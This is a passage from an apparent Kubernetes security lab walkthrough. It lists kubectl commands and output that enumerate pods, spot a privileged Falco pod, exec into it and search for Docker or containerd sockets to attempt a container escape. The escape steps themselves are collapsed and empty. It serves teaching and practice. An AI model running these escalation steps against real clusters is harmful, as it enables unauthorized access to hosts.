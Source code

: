 Let's take a look:

```sh
kubectl get pods
```
```
Error from server (Forbidden): pods is forbidden: User "system:serviceaccount:build:build-sa" cannot list resource "pods" in API group "" in the namespace "build"
```

Seems like we don't have much access; maybe just the `falco` namespace is available?

```sh
kubectl get pods -n falco
```
```
NAME                                   READY   STATUS    RESTARTS        AGE
falco-falcosidekick-6f7996c855-45lfm   1/1     Running   0               7h17m
falco-falcosidekick-6f7996c855-vrmrt   1/1     Running   0               7h17m
falco-mbk2n                            2/2     Running   0               7h17m
```

That was it. Next, let's check to see what security restrictions these pods have; we might be able to get more credentials than we have here:

```sh
kubectl get pods -n falco -o=jsonpath='{range .items[*]}{.metadata.name}{"\t"}{.spec.containers[].securityContext}{"\n"}{end}'
```
```
falco-falcosidekick-6f7996c855-45lfm	
falco-falcosidekick-6f7996c855-vrmrt	
falco-mbk2n	{"privileged":true}
```

The `falco-mbk2n` container is privileged; that means there are a number of ways we could perform a container escape and increase our privileges.

### Privilege Escalation

Let's get into the Falco pod and take a look around.

```sh
# replace the pod name with the Falco pod name given by the previous command
kubectl exec -it -n falco falco-mbk2n -- /bin/bash
```

One method for container escape uses the host's docker socket to start a new vulnerable container. Let's check if there is a Docker socket available:

```sh
find / -name docker.sock -o -name containerd.sock 2>/dev/null
```

<details><summary>If <code>docker.sock</code> exists</summary></details>

<details><summary>If only <code>containerd.sock</code> exists</summary></details>

Looking around on the payroll container, we see the source code and a configuration file:
